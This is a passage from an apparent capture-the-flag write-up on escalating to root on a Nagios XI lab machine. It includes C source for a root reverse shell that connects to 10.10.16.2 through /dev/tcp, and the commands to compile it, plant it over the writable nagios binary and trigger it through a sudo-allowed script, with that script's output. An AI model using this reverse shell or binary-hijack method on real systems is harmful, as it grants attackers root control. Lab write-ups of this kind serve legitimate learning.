 This means we can write a shell into the writable executable, run the script as root, and we will have a root shell!

First, let's make a C reverse shell and compile it:

```c
#include <stdlib.h>
#include <unistd.h>

int main()
{
	setuid(0);
	setgid(0);
	system("bash -c 'bash -i >& /dev/tcp/10.10.16.2/9002 0>&1'");
}
```

```
nagios@monitored:~$ gcc a.c
```

Next, we move the script into where the executable was:

```
nagios@monitored:~$ mv a.out /usr/local/nagios/bin/nagios
```

Run the script:

```
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/components/getprofile.sh 2
mv: cannot stat '/usr/local/nagiosxi/tmp/profile-2.html': No such file or directory
-------------------Fetching Information-------------------
Please wait.......
Creating system information...
Creating nagios.txt...
Creating perfdata.txt...
Creating npcd.txt...
Creating cmdsubsys.txt...
Creating event_handler.txt...
Creating eventman.txt...
Creating perfdataproc.txt...
Creating sysstat.txt...
Creating systemlog.txt...
Retrieving all snmp logs...
Creating apacheerrors.txt...
Creating mysqllog.txt...
Getting xi_users...
Getting xi_usermeta...
Getting xi_options(mail)...
Getting xi_otions(smtp)...
Creating a sanatized copy of config.inc.php...
Creating memorybyprocess.txt...
Creating filesystem.txt...
Dumping PS - AEF to psaef.txt...
Creating top log...
Creating sar log...
Copying objects.cache...
Copying MRTG Configs...
tar: Removing leading `/' from member names
Counting Performance Data Files...
Counting MRTG Files...
Getting Network Information...
Getting CPU info...
Getting memory info...
Getting ipcs Information...
Getting SSH terminal / shellinabox yum info...
Getting Nagios Core version...
```